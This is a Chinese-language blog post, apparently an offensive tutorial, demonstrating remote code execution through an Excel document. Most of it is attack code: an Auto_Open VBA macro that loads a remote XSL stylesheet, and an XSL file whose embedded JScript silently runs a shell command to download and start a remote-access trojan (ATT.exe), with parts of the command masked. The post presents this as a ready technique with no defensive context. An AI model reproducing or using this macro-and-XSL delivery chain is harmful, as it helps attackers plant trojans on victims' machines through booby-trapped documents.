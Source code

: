 ```yaml
---
title: EXCEL远程执行
author: APT - 0x44LL
date: 2021-01-17
category: Jekyll
layout: post
---
```


## EXCEL远程执行演示
<iframe 
    width=770
    height=435
    src="https://player.youku.com/embed/XNTg0MDAwMzIxMg==" 
    frameborder=0
    allowfullscreen>
</iframe>

## 准备工作：<br>
**1.创建以下两个文件<br>**
<font color=Red>
excel.xsl<br>
ATT.xsl<br>
ATT.exe<br>
</font>
---

> excel.xsl

```
Sub Auto_Open()
    Set XML = CreateObject("Microsoft.XMLDOM")
    XML.async = False
    Set xsl = XML
    xsl.Load "http://127.0.0.1:80/ATT.xsl"
    XML.transformNode xsl
End Sub
```


> ATT.xsl

```
<xsl:stylesheet 
xmlns:xsl="http://www.w3.org/1999/XSL/Transform" 
xmlns:ms="urn:schemas-microsoft-com:xslt" 
xmlns:user="placeholder" 

version="1.0">
<ms:script implements-prefix="user" language="JScript">
<![CDATA[
var r = new ActiveXObject("WScript.Shell").Run("cmd xxxxx -xx 127.0.1.1/ATT.exe xxxx/ATT.exe & start xxxx/ATT.exe",0);
  ]]>
</ms:script>
</xsl:stylesheet>
```

> ATT.exe

```
这是远控生成的木马
```

**<font color=Red face="黑体">将ATT.xsl调用ATT.exe执行,当excel.xsl打开就会进行远程加载ATT.xsl并下载在本地执行ATT.exe木马程序；</font>**

